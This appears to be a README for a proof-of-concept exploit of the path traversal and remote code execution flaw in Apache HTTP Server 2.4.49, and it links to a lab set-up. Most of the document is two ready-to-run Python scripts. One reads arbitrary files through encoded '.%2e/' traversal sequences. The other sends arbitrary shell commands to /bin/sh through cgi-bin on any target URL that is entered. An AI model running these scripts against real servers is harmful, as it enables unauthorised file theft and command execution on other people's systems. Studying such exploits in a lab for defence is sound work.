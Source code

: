 # Summary
Apache HTTP Server 2.4.49 is vulnerable to Path Traversal and Remote Code execution. Path Traversal arises due to the inadiquate normalization function and misconfiguration. RCE is achieved by chaining the path traversal and enabled mod_agi module which can be set in the server config file.


# Details
### Path Traversal: 
When the user makes a get request like, .%2e/.%2e/.%2e/.%2e/.%2e/.%2e/sample/file The normalization function fails to decode the second dot from url-encoding which results the filter bypass. Along with this, the directory directive in the server configuration should be set as, '<Directory /> Require all granted </Directory>' for the path traversal to work.
### RCE: 
The path traversal can be used to get remote code execution when the mod_cgi module is enabled in the httpd.conf configuration file. This allows an attacker to use the path traversal vulnerability and call any binary on the system using HTTP POST requests and execute any commands.

# PoC (python3)
### For path traversal:
```
import requests

def payL():
    session = requests.Session()
    u=input("Enter base url: ")
    file=input("Enter full path of file to read: ")
    url=u+"cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"+file
    req = requests.Request(method='GET', url=url).prepare()
    req.url = url
    print(session.send(req).text)

payL()
```
### For RCE:
```
import requests

def payL():
    session = requests.Session()
    u=input("Enter base url: ")
    cmd=input("Enter command to execute: ")
    data="echo Content-Type: text/plain; echo; "+cmd
    url=u+"cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh"
    req = requests.Request(method='POST', url=url, data=data).prepare()
    req.url = url
    print(session.send(req).text)

payL()
```

# Lab set-up
https://github.com/retrymp3/apache2.4.49VulnerableLabSetup